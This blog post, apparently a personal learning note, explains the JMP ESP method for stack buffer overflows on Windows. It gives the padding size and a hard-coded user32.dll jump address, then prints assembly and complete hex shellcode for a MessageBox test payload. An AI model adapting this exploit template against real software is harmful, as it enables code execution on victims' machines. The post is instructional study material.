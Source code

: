 ```yaml
---
title: Exploit Learning Notes 002 JMP ESP
description: ShellCode's Dynamic Positioning Method - JMP ESP Method
date: 2020-10-19 18:20:00+0800
categories:
    - Exploit
tags:
    - Windows
    - ShellCode
---
```


> [Click here to download this article with executable program, shellcode file](exploit-study-02.zip)

Source: [Moeomu's blog](/posts/exploit-learning-notes-002-jmp-esp/)

## Stack space shifting

ShellCode is often dynamic in memory and is not directly filled with a fixed value  
That is, the stack space address of the buffer array in the previous article is not always a fixed value  
When the CPU executes to this address, it may trigger an invalid instruction exception and crash the program and ShellCode will not run.

### Principle

Find the address of a `JMP ESP` instruction from the loaded system DLL and use this address to flood the return address  
This allows for precise location of the shellcode and adapts to the dynamic changes in the stack space  
The stack address is small and large, the CPU execution order is from small address to large address, stack flooding is also from small address to large address  
This allows ShellCode to be dynamically addressed by flooding the previous section with meaningless data and flooding the start of ShellCode at `[ESP]`.

### ShellCode writing

#### structure

Useless data + `JMP ESP` address (this address is exactly flooded to the function return address) + command code (for testing, MessageBox popup)

> Description.
>
> - `retn` will jump to `JMP ESP` afterwards, then ESP + 4
> - `JMP ESP` will jump to the command code exactly after

#### necessary data

- `JMP ESP` address: located in User32.dll `0x77D29353` (no need to be the original command, just search the binary `0xFFE4`)
- Garbage data size: 52 Byte = Buffer(44 Byte) + authenticated(4 Byte) + EBP(4 Byte)

#### Final Code

> Here is the command code to be executed

```x86asm
33DB                      xor ebx,ebx
53                        push ebx
68 6D756F6F               push 0x6F6F756D
68 4D6F656F               push 0x6F656F4D
8BC4                      mov eax,esp
53                        push ebx
50                        push eax
50                        push eax
53                        push ebx
B8 EA07D577               mov eax,user32.MessageBoxA
FFD0                      call eax
B8 FACA817C               mov eax,kernel32.ExitProcess
FFD0                      call eax
```

> Final ShellCode

```c
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 34 33 32 31  34 33 32 31 34 33 32 31
34 33 32 31 53 93 D2 77  33 DB 53 68 6D 75 6F 6F
68 4D 6F 65 6F 8B C4 53  50 50 53 B8 EA 07 D5 77
FF D0 B8 FA CA 81 7C FF  D0
```
